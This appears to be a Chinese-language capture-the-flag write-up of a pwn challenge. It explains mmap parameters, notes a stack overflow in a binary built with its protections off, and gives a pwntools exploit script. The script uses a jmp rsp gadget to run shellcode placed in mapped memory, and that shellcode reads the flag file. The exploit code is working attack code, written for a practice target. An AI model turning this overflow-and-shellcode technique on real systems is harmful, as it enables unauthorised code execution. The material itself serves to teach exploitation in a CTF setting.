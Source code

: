 其中参数的含义如下：

- addr：指定映射的起始地址，通常为0，表示由系统选择合适的地址。
- length：指定映射的长度，以字节为单位。
- prot：指定内存映射区域的保护方式，比如可读、可写、可执行等。
- flags：指定映射选项，比如是否共享、是否私有等。
- fd：指定要映射的文件描述符，若创建匿名映射则为-1。
- offset：指定文件映射的起始位置。
**![[Pasted image 20240923213808.png]]**

### 例题演示：

checksec 保护全关
![[Pasted image 20240923213828.png]]
可以看到有溢出
![[Pasted image 20240923213840.png]]
思路：

- 首先构造我们的shellcode
- 利用jmp_rsp，跳转到给我们提供mmap的内存这里写入我们的ROP链
- getshell
![[Pasted image 20240923213943.png]]
```
#coding=utf-8 
from pwn import *

context.log_level='debug'
context.arch='amd64'

p=remote("node5.buuoj.cn",26366)
#p=process('./pwn')
elf = ELF('./bad')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.recvuntil('Easy shellcode, have fun!')

mmap=0x123000
#orw=shellcraft.open('./flag.txt')
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

jmp_rsp=0x400A01

payload=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
payload=payload.ljust(0x28,b'\x00')
payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')


p.sendline(payload)
shell=asm(orw)
p.sendline(shell)
p.interactive()
```
